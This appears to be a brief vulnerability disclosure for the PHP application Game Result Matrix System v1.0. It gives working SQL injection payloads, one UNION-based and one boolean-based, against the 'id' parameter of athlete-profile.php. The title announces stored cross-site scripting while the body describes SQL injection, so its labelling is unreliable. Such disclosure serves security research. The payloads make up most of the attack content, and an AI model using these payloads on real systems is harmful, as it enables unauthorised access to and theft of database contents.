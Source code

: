 # Game Result Matrix System v1.0 has stored cross-site scripting

BUG_Author: zhangyf

Website source code address: https://www.sourcecodester.com/php/14022/game-result-matrix.html

Vulnerability File: /dipam/athlete-profile.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=-1' union all select null,null,null,null,null,null,null,null,null,concat(0x56575859,0x60616263),null,null,null-- -

UNION query successful.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/7.png)

Payload2: id=243' AND 123=123 AND 'qwe'='qwe

The Boolean value is judged correctly, so the page is displayed normally.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/8.png)
